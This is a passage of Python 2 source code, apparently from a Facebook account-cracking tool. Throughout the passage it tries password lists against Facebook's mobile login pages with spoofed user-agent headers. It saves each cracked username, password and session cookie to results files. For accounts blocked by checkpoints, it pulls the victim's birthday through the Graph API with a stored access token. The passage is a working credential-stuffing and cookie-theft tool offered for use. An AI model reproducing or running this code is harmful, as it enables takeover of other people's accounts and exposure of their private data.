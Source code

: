             p = ses.get("https://mbasic.facebook.com")
            b = ses.post("https://mbasic.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})
            if "c_user" in ses.cookies.get_dict().keys():
            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)
                wrt = ' [✓] %s|%s|%s' % (user,pw,kuki)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif "checkpoint" in ses.cookies.get_dict().keys():
                try:
                    kontol = open('.memek.txt').read()
                    cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol)).json()['birthday']
                    month, day, year = cp_ttl.split('/')
                    month = bulan_ttl[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day   = ''
                    year  = ''
                except:
                    pass

                print '\r  %s* --> %s|%s                %s' % (K,user,pw,N)
                wrt = ' [×] %s|%s' % (user,pw)
                cp.append(wrt)
                open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue

        loop += 1

    def __mfb__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
            ses = requests.Session()
            ses.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":_kontol,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
            p = ses.get("https://m.facebook.com")
            b = ses.post("https://m.facebook.com/login.php", data={"email": user, "pass": pw, "login": "submit"})
            if "c_user" in ses.cookies.get_dict().keys():
            	kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print '\r  %s* --> %s|%s|%s                 %s' % (H,user,pw,kuki,N)